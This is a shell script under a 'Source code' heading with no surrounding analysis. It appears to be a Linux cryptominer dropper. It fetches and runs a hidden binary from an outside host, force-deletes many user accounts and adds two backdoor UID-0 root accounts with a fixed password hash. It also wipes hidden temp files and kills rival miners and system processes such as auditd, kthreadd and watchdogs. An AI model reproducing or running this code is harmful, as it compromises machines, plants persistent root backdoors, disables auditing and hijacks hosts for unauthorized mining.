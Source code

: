 ```
cd /boot ; curl -O http://r00ts.truthdealmodz[.]pw/.i ; chmod +x .i; nohup ./.i  >/dev/null 2>&1 ; rm -rf .i
userdel -f bash >/dev/null 2>&1
userdel -f ssh >/dev/null 2>&1
userdel -f butter >/dev/null 2>&1
userdel -f r00t >/dev/null 2>&1
userdel -f axiga >/dev/null 2>&1
userdel -f cats >/dev/null 2>&1
userdel -f python >/dev/null 2>&1
userdel -f Word >/dev/null 2>&1
userdel -f fxmeless >/dev/null 2>&1
userdel -f yandex >/dev/null 2>&1
userdel -f synx >/dev/null 2>&1
userdel -f syncs >/dev/null 2>&1
userdel -f oracles >/dev/null 2>&1
userdel -f cubes >/dev/null 2>&1
userdel -f wwww >/dev/null 2>&1
userdel -f http  >/dev/null 2>&1
userdel -f R00T  >/dev/null 2>&1
userdel -f z  >/dev/null 2>&1
userdel -f r000t  >/dev/null 2>&1
userdel -f ssshd  >/dev/null 2>&1
userdel -f vps  >/dev/null 2>&1
userdel -f Duck >/dev/null 2>&1
userdel -f x >/dev/null 2>&1
userdel -f redisserver >/dev/null 2>&1
userdel -f admins >/dev/null 2>&1
userdel -f halts >/dev/null 2>&1
useradd -u 0 -g 0 -o -l -d /root -N -M -p '$1$OwJj0Fjv$RmdaYLph3xpxhxxfPBe8S1' VM >/dev/null 2>&1
useradd -u 0 -g 0 -o -l -d /root -N -M -p '$1$OwJj0Fjv$RmdaYLph3xpxhxxfPBe8S1' localhost >/dev/null 2>&1
#rm -rf /tmp/.*
rm -rf /var/tmp/.z
rm -rf /tmp/.FILE
rm -rf /tmp/.xm
rm -rf /tmp/.iokb21
rm -rf /tmp/.bzc bzc.tgz*
rm -rf /var/tmp/.xm.log
pkill -9 56545
pkill -9 Word
pkill -9 "  "
pkill -9 xds
pkill -9 httpd.conf
pkill -9 yam
pkill -9 xd
pkill -9 .syslog
pkill -9 wipefs
pkill -9 " "
pkill -9 auditd
pkill -9 crondb
pkill -9 syn
pkill -9 xnetd
pkill -9 ld-linux-x86-64
pkill -9 xm64
pkill -9 xm32
pkill -9 kthreadd
pkill -9 watchdogs
pkill -9 xmrig64
pkill -9 xig
pkill -9 ps
pkill -9 minerd
pkill -9 smh64
pkill -9 system.usermn
```